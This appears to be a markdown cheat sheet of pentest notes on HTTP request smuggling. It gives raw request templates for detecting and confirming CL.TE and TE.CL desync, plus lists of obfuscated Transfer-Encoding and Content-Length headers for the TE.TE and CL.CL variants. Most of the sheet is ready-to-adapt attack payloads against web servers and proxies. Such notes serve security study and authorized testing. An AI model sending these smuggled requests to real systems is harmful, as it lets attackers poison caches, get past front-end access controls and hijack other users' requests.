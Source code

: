 # HTTP Smuggling
**Content-Length (body) is DECIMAL Bytes**
**Chunk size is HEX Bytes**
**Start smuggling by finding a POST request - Can include converting GET into POST / Finding Fat GET request (CDN)**

**Note: Always append two lines (`\r\n\r\n`) after Null chunk**
**Note: Each line (`\r\n`) is 2 bytes long**
**Note: Request does not care if method is on new lines :**
```
P
O
S
T / HTTP/1.1
```

## Headers
```
Transfer-Encoding: chunked
Connection: Keep-Alive
```
## CL.TE
**Client sends Incomplete chunks**
**Nicer to test this first**
```
POST / HTTP/1.1  
Host: vulnerable-website.com  
Transfer-Encoding: chunked  
Content-Length: 4  
  
1
A
[<SMUGGLE>]
```
- Incomplete chunk is sent - Server hangs expecting Zero Chunk

### Confirmation
```
POST /search HTTP/1.1  
Host: <HOST>
Content-Length: 49  
Transfer-Encoding: chunked  
  
<HEX LEN BODY>
<BODY>
0
  
GET /404 HTTP/1.1  
Foo: x
```

## TE.CL
**Client sends larger Content-Length than chunk**
```
POST / HTTP/1.1  
Host: <HOST>
Transfer-Encoding: chunked  
Content-Length: 6
  
0

[<SMUGGLE>]
```
-Zero chunk (3 bytes) is sent - Server hangs expecting 3 more bytes

### Confirmation
```POST /search HTTP/1.1  
Host: <HOST>
Content-Type: application/x-www-form-urlencoded
Content-Length: <2 + LENGTH HEX>
Transfer-Encoding: chunked

<HEX LENGTH OF BODY>
POST /404 HTTP/1.1
Host: <HOST>
Content-Type: application/x-www-form-urlencoded
Content-Length: <11 + LEN ENTIRE NEXT REQUEST>

x=
0


```
Or
```POST /search HTTP/1.1  
Host: <HOST>
Content-Type: application/x-www-form-urlencoded
Content-Length: <2 + LENGTH HEX>
Transfer-Encoding: chunked

<HEX LENGTH OF BODY>
POST /404 HTTP/1.1
Host: <HOST>
Content-Type: application/x-www-form-urlencoded
Content-Length: <11 + LEN ENTIRE NEXT REQUEST>
X-Ignore: X
0


```
May cause issues with duplicate headers

## TE.TE
**Obfuscating T.E Header hangs Client / Server**
**Try with above payloads to determine CL.TE or TE.CL**
### Obfuscating Payloads
- `Transfer-Encoding: xchunked`
- `Transfer-Encoding : chunked`
- `Transfer-Encoding: chunked\r\nTransfer-Encoding: x`
- `Transfer-Encoding:[tab]chunked`
- `[space]Transfer-Encoding: chunked`
- `X: X[\n]Transfer-Encoding: chunked`
- `Transfer-Encoding
	: chunked`

## CL.CL
**Obfuscating Content-Length Header produces different response**
### Obfuscating Payloads
- `Content-Length : 0`
- `Content-Length abcd: 0`
- `Content_Length: 0`
- `[\r]Content-Length: 0`


